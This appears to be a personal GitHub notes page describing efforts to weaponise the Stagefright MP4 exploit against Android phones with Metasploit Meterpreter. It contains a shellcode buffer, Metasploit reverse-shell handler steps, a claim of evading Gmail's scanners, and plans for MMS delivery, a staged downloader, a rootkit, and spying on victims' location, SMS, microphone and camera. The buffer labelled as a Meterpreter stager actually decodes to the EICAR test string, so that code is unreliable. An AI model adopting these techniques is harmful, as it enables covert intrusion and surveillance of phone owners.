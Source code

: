 # Research Parameters
Yesterday, I, "Smoke Jaguar", successfully used the Stagefright exploit (one of many), to hack into my own phone. I have typed the conclucions in a different article in the same directory.

This time, I decided to refine the technique offered by Joshua Drake JDuck at his repo, in order to create a more capable session.

# Sources
http://www.security-faqs.com/what-is-rop-and-how-do-hackers-use-it.html
Joshua Drake's technique and exploit uses what is called ROP (Return Oriented Programming), as described by the upper link

While JDuck didn't explicitly mention this, ROP is a good way to bypass ASLR, which Google implemented to prevent StageFright exploits from working starting with Android 5.0+.

https://www.offensive-security.com/metasploit-unleashed/generating-payloads/

This here is a guide on generating metasploit shellcode, including how to include the elimination of bad bytes in Metasploit

"Page 76 of Grey Hat Python" by Justin Seitz

Explains how to debug shellcode that is crashing, including a neat little python program on how to locate badchars. 
This requires the installation and use of python 2.7 on Windows in order to use the immunity debugger immlib library. 

# JDuck's Source Code (Python)
https://github.com/jduck/cve-2015-1538-1

Starting on Line 125 of JDuck's exploit, is the function "def build_rop". The shellcode is a linux/armle/shell_reverse_tcp type on metasploit. And the actual shellcode starts at line 142 ending at line 180.

# New Idea

JDuck's shellcode was back in the year of 2015. By now, Metasploit already has some capable Android-specific Meterpreter shells that could do a much better job. 

This may take longer than usual, but it should be as easy as generating a msfvenom

payload/android/meterpreter/reverse_https (STAGED) or payload/android/meterpreter_reverse_https (INLINE)

payload, and tweaking JDuck's exploit to make it work. So this time, running the script will generate a infected mp4 file that has a instant Meterpreter upgrade.

# Update: Replacing Shellcode = Failure

Attempted to change the lines of shellcode to a 68-byte Android Meterpreter stager:

    #rop += struct.pack('<L', 0xfeedfed5)          # top of stack...
    # linux/armle/shell_reverse_tcp (modified to pass env and fork/exit)
    # Modified to become a Meterpreter Stager
    buf = ''
    buf += 'x58\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a'
    buf += 'x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24'
    buf += 'x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44'
    buf += 'x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53'
    buf += 'x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a'
  
The encoding scheme used by mp4.py (the renamed python script originally made by JDuck) has worked perfectly (and it gets past gmail's outbound mail scanners)

However, it failed to execute.

According to the Line 141 of JDuck's code, the handler must be configured with payload/linux/armle/shell_reverse_tcp. Thats originally how it designed to work.

So...

1. Use exploit/android/browser/stagefright_mp4_tx3g_64bit
2. Set PAYLOAD linux/armle/shell_reverse_tcp
3. Set LHOST 0.0.0.0
4. Set LPORT to whatever you left your listener port to
5. Set ExitOnSession false
6. Exploit -j -z

# Notes and Disclaimers

1. Be forewarned that non-rooted devices were discovered to have limited capabilities, as described in OPERATION SMOKE JAGUAR. You cannot GEOLOCATE a victim or do a SMS dump without having the devices rooted first
2. Furthermore you cannot use the Stagefright listener anymore, remember now that the shellcode is a Meterpreter stager, and it must complete the second stage (the connect-back stage that will be sent by listener machine) or else it'll fail
3. Its probably not wise to create a INLINE payload, because one delivery vector to the desired MMS exploit is via Email-to-MMS. And we all know that emails have attachment size limits and spam filter limits.
4. I "Smoke Jaguar", am not much of a programmer or hacker. I only figured out how to use Python last month, and I been on GitHub for about half a month. Still learning this stuff right now. Will take me a while. 

# Proposed Solutions

# PS #1. 
We can overcome the filesize limits by replacing the initial MMS payload with a auto-executing script, that downloads the later stages, which is a idea I took from Skiddie's UAC Duck (see below)
# PS #2. 
One of the "stages" will be a entire rootkit meant to unlock Android phones. However, different cell manufacturers have different methods of unlocking, and their own anti-tamper mechanisms. There is no generic exploit as far as I can tell.
# PS #3. 
The second stage carries the Meterpreter Stager payload. It's fairly simple, it will connect back to the listener upgrading it to...
# PS #4. 
The third stage, the Meterpreter Inline. As long as the rootkit properly went off, then we have full access to the victim smartphone as well as geolocation + SMS dumping + voice recording + webcam spying.


